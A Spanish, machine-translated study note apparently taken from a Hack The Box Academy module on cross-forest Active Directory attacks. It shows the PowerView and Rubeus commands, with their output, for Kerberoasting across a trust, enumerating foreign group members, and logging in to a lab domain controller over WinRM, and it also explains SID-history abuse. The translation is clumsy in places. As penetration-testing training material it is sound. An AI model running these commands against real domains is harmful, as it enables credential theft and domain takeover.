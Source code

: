 --------
- Tags: #Rubeus #kerberoasting 
--------------------
## Cross-Forest Kerberoasting

Los ataques Kerberos como Kerberoasting y ASREPRoasting se pueden realizar entre fideicomisos, según la dirección de la confianza. En una situación en la que se encuentra en un dominio con un dominio/bosque de confianza entrante o bidireccional, es probable que pueda realizar varios ataques para ganar terreno. A veces no puede escalar privilegios en su dominio actual, sino que puede obtener un ticket de Kerberos y descifrar un hash para un usuario administrativo en otro dominio que tenga privilegios de administrador de dominio/empresa en ambos dominios.

Podemos utilizar PowerView para enumerar cuentas en un dominio de destino que tengan SPN asociados.
  
#### Enumeración de cuentas para SPN asociados mediante Get-DomainUser

```powershell-session
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

Realicemos un ataque Kerberoasting en toda la confianza usando `Rubeus`. Ejecutamos la herramienta como lo hicimos en la sección Kerberoasting, pero incluimos el indicador `/domain:` y especificamos el dominio de destino.
#### Realizar un ataque Kerberoasting con Rubeus usando el indicador /dominio

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

Luego podríamos ejecutar el hash a través de Hashcat. Si falla, ahora hemos ampliado rápidamente nuestro acceso para controlar completamente dos dominios aprovechando un ataque bastante estándar y abusando de la dirección de autenticación y la configuración de la confianza del bosque bidireccional.
## Reutilización y actualización de la contraseña de administrador Membresía de grupo

De vez en cuando, nos encontramos con una situación en la que existe un fideicomiso forestal bidireccional administrado por administradores de la misma empresa. Si podemos tomar el control del dominio A y obtener contraseñas de texto sin cifrar o hashes NT para la cuenta de administrador integrada (o una cuenta que forma parte del grupo de administradores empresariales o administradores de dominio en el dominio A), y el dominio B tiene una cuenta con privilegios elevados. con el mismo nombre, entonces vale la pena verificar la reutilización de contraseñas en los dos bosques. Ocasionalmente me encontré con problemas en los que, por ejemplo, el Dominio A tenía un usuario llamado `adm_bob.smith` en el grupo Administradores de dominio y el Dominio B tenía un usuario llamado `bsmith_admin`. A veces, el usuario usaba la misma contraseña en los dos dominios y ser propietario del Dominio A me otorgaba instantáneamente derechos completos de administrador en el Dominio B.

También podemos ver usuarios o administradores del dominio A como miembros de un grupo en el dominio B. Solo `Domain Local Groups` permite entidades principales de seguridad de fuera de su bosque. Es posible que veamos a un administrador de dominio o administrador empresarial del dominio A como miembro del grupo de administradores integrado en el dominio B en una relación de confianza de bosque bidireccional. Si podemos asumir el control de este usuario administrador en el Dominio A, obtendremos acceso administrativo completo al Dominio B según la membresía del grupo.

Podemos utilizar la función PowerView [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) para enumerar grupos con usuarios que no pertenecen al dominio, también conocido como con el que tenemos una confianza de bosque bidireccional externa.`foreign group membership FREIGHTLOGISTICS.LOCAL`
#### Usando Get-DomainForeignGroupMember

```powershell-session
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

El resultado del comando anterior muestra que el grupo de administradores integrado en `FREIGHTLOGISTICS.LOCAL` tiene la cuenta de administrador integrada para el dominio `INLANEFREIGHT.LOCAL` como miembro. Podemos verificar este acceso utilizando el cmdlet `Enter-PSSession` para conectarnos a través de WinRM.
#### Accediendo a DC03 usando Enter-PSSession

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

En el resultado del comando anterior, podemos ver que nos autenticamos exitosamente en el controlador de dominio en el `FREIGHTLOGISTICS.LOCAL`dominio utilizando la cuenta de administrador del `INLANEFREIGHT.LOCAL`dominio a través de la confianza del bosque bidireccional. Esto puede ser una ganancia rápida después de tomar el control de un dominio y siempre vale la pena verificar si hay una situación de confianza de bosque bidireccional durante una evaluación y el segundo bosque está dentro del alcance.
## Abuso del historial de SID - Cross Forest
También se puede abusar del historial SID en un fideicomiso forestal. Si un usuario se migra de un bosque a otro y el filtrado de SID no está habilitado, es posible agregar un SID del otro bosque, y este SID se agregará al token del usuario cuando se autentique en toda la confianza. Si el SID de una cuenta con privilegios administrativos en el bosque A se agrega al atributo de historial de SID de una cuenta en el bosque B, suponiendo que puedan autenticarse en todo el bosque, entonces esta cuenta tendrá privilegios administrativos al acceder a los recursos en el bosque asociado. En el siguiente diagrama, podemos ver un ejemplo del `jjones`usuario que se migra del `INLANEFREIGHT.LOCAL`dominio al `CORP.LOCAL`dominio en un bosque diferente. Si el filtrado SID no está habilitado cuando se realiza esta migración y el usuario tiene privilegios administrativos (o cualquier tipo de derechos interesantes como entradas ACE, acceso a recursos compartidos, etc.) en el `INLANEFREIGHT.LOCAL`dominio, entonces conservará sus derechos/acceso administrativo en `INLANEFREIGHT.LOCAL`siendo miembro del nuevo dominio, `CORP.LOCAL`en el segundo bosque.

![imagen](https://academy.hackthebox.com/storage/modules/143/sid-history.png)

Este ataque se tratará en profundidad en un módulo posterior que se centrará más en atacar los fideicomisos de AD.

